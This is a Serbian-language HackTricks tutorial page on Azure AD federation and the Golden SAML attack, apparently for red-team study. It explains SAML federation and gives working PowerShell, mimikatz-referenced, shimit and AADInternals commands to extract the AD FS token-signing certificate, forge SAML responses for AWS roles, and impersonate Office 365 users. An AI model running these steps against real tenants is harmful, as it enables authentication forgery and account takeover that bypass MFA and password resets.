 # Az - Federacija

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

[Od dokumenata:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federacija** je skup **domena** koji su uspostavili **poverenje**. Nivo poverenja može varirati, ali obično uključuje **autentifikaciju** i gotovo uvek uključuje **autorizaciju**. Tipična federacija može uključivati **broj organizacija** koje su uspostavile **poverenje** za **deljeni pristup** skupu resursa.

Možete **federisati vaše on-premises** okruženje **sa Azure AD** i koristiti ovu federaciju za autentifikaciju i autorizaciju. Ovaj način prijave osigurava da se sva autentifikacija korisnika **odvija on-premises**. Ovaj metod omogućava administratorima da implementiraju rigoroznije nivoe kontrole pristupa. Federacija sa **AD FS** i PingFederate je dostupna.

<figure><img src="../../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

U osnovi, u Federaciji, sva **autentifikacija** se odvija u **on-prem** okruženju i korisnik doživljava SSO (Single Sign-On) preko svih poverenih okruženja. Stoga, korisnici mogu **pristupiti** **cloud** aplikacijama koristeći svoje **on-prem kredencijale**.

**Security Assertion Markup Language (SAML)** se koristi za **razmenu** svih informacija o autentifikaciji i autorizaciji između provajdera.

U svakoj federaciji postoje tri strane:

* Korisnik ili Klijent
* Provajder identiteta (IdP)
* Provajder usluga (SP)

(Slike preuzete sa https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

1. Prvo, aplikacija (Provajder usluga ili SP, kao što su AWS konzola ili vSphere web klijent) se pristupa od strane korisnika. Ovaj korak može biti zaobiđen, vodeći klijenta direktno ka IdP (Provajder identiteta) u zavisnosti od specifične implementacije.
2. Zatim, SP identifikuje odgovarajući IdP (npr. AD FS, Okta) za autentifikaciju korisnika. Zatim kreira SAML (Security Assertion Markup Language) AuthnRequest i preusmerava klijenta ka izabranom IdP.
3. IdP preuzima kontrolu, autentifikuje korisnika. Nakon autentifikacije, SAMLResponse se formira od strane IdP-a i prosleđuje SP-u preko korisnika.
4. Na kraju, SP procenjuje SAMLResponse. Ako je uspešno validiran, implicirajući poverenje sa IdP-om, korisniku se odobrava pristup. Ovo označava završetak procesa prijave, omogućavajući korisniku da koristi uslugu.

**Ako želite da saznate više o SAML autentifikaciji i uobičajenim napadima idite na:**

{% embed url="https://book.hacktricks.xyz/pentesting-web/saml-attacks" %}

## Pivoting

* AD FS je model identiteta zasnovan na tvrdnjama.
* "..tvrdnjesuprostoizjave(naprimer,ime,identitet,grupa), napravljene o korisnicima, koje se koriste pretežno za autorizaciju pristupa aplikacijama zasnovanim na tvrdnjama, smeštenim bilo gde na Internetu."
* Tvrdnje za korisnika su napisane unutar SAML tokena i zatim potpisane radi obezbeđivanja poverljivosti od strane IdP-a.
* Korisnik je identifikovan pomoću ImmutableID. To je globalno jedinstveno i čuva se u Azure AD.
* ImmutableID je čuvan na-prem kao ms-DS-ConsistencyGuid za korisnika i/ili se može izvesti iz GUID-a korisnika.
* Više informacija na [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML napad:**

* U ADFS-u, SAML Response je potpisan sertifikatom za potpisivanje tokena.
* Ako je sertifikat kompromitovan, moguće je autentifikovati se na Azure AD kao BILO koji korisnik sinhronizovan sa Azure AD!
* Kao i kod zloupotrebe PTA, promena lozinke za korisnika ili MFA neće imati nikakav efekat jer lažiramo odgovor za autentifikaciju.
* Sertifikat se može izvući sa AD FS servera sa DA privilegijama i zatim se može koristiti sa bilo koje mašine povezane na internet.
* Više informacija na [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

Proces gde **Provajder identiteta (IdP)** proizvodi **SAMLResponse** za autorizaciju prijave korisnika je ključan. U zavisnosti od specifične implementacije IdP-a, **odgovor** može biti **potpisan** ili **šifrovan** korišćenjem **privatnog ključa** IdP-a. Ovaj postupak omogućava **Provajderu usluga (SP)** da potvrdi autentičnost SAMLResponse-a, osiguravajući da je zaista izdat od strane poverenog IdP-a.

Paralela se može povući sa [napadom zlatnim tiketom](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket), gde ključ koji autentifikuje korisnikov identitet i dozvole (KRBTGT za zlatne tikete, privatni ključ za potpisivanje tokena za zlatni SAML) može biti manipulisan da **falsifikuje autentifikacioni objekat** (TGT ili SAMLResponse). Ovo omogućava impersonaciju bilo kog korisnika, dajući neovlašćen pristup SP-u.

Golden SAML-ovi nude određene prednosti:

* Mogu se **kreirati na daljinu**, bez potrebe da budu deo domena ili federacije u pitanju.
* Ostaju efikasni čak i sa **Dvostrukom Autentifikacijom (2FA)** omogućenom.
* **Privatni ključ za potpisivanje tokena se ne obnavlja automatski**.
* **Promena lozinke korisnika ne poništava** već generisan SAML.

#### AWS + AD FS + Golden SAML

[Active Directory Federation Services (AD FS)](https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402\(v=msdn.10\)) je Microsoft servis koji olakšava **sigurnu razmenu informacija o identitetu** između poverenih poslovnih partnera (federacija). U osnovi omogućava domenskoj usluzi da deli korisničke identitete sa drugim provajderima usluga unutar federacije.

Sa AWS-om koji veruje kompromitovanom domenu (u federaciji), ovu ranjivost je moguće iskoristiti da se potencijalno **dobiju bilo koje dozvole u AWS okruženju**. Napad zahteva **privatni ključ korišćen za potpisivanje SAML objekata**, slično kao što je potrebno KRBTGT-u u napadu zlatnim tiketom. Pristup korisničkom nalogu AD FS-a je dovoljan da se dobije ovaj privatni ključ.

Za izvođenje golden SAML napada potrebno je:

* **Privatni ključ za potpisivanje tokena**
* **Javni sertifikat IdP-a**
* **Ime IdP-a**
* **Ime uloge (uloga za preuzimanje)**
* Domain\korisničko ime
* Ime sesije uloge u AWS-u
* ID Amazon naloga

_Samo stavke podebljane su obavezne. Ostale se mogu popuniti po želji._

Za dobijanje **privatnog ključa**, potreban je pristup **korisničkom nalogu AD FS-a**. Zatim, privatni ključ se može **izvesti iz ličnog skladišta** koristeći alate poput [mimikatz](https://github.com/gentilkiwi/mimikatz). Za prikupljanje ostalih potrebnih informacija, možete koristiti Microsoft.Adfs.Powershell snapin na sledeći način, obezbeđujući da ste prijavljeni kao korisnik ADFS-a:
```powershell
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
Sa svim informacijama, moguće je zaboraviti validan SAMLResponse kao korisnik kog želite da predstavljate koristeći [**shimit**](https://github.com/cyberark/shimit)**:**
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### Lokalno -> oblak
```powershell
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
Takođe je moguće kreirati ImmutableID korisnika samo u oblaku i impersonirati ih
```powershell
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## Reference

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
* [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
